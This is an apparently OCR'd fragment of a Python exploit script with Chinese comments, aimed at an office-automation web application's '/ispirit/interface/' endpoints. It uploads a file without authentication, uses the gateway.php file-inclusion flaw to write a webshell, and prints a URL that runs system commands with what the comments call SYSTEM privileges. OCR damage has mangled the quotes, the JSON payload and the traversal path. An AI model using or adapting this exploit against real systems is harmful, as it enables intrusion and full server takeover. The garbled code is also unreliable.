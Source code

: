 ```
include_url = url+"/ispirit/interface/gateway.php"

# 定义shell目录，如果要修改名字，需要把shell里面的一起改了

shell_url = url+"/ispirit/interface/readme.php"

files = {‘ATTACHMENT’: shell}

# 参见源码，有漏洞的版本只要POST P和DEST_UID参数就会自动生成session

upload_data = {“P”: “123”, “DEST_UID”: “1”, “UPLOAD_MODE”: “2”}

# 上传

upload_res = requests.post(upload_url, upload_data, files=files)

# 此时会返回上传文件的路径

path = upload_res.text

# 解析返回值获取上传地址

path = path[path.find(’@’)+1:path.rfind(’|’)

].replace("_", “/”).replace("|", “.”)

# 由于上传文件会自动改为jpg，所以要用gateway.php包含

include_data = {“json”: “{“url”:”/general/…/…/attach/im/" + path+""}"}

# 包含+自动写入shell

include_res = requests.post(include_url, data=include_data)

# 返回结果 a参数可以直接填入系统命令（比如whoami），默认是system权限 `print(‘shell is here:’+shell_url+’?a=command’)` 
```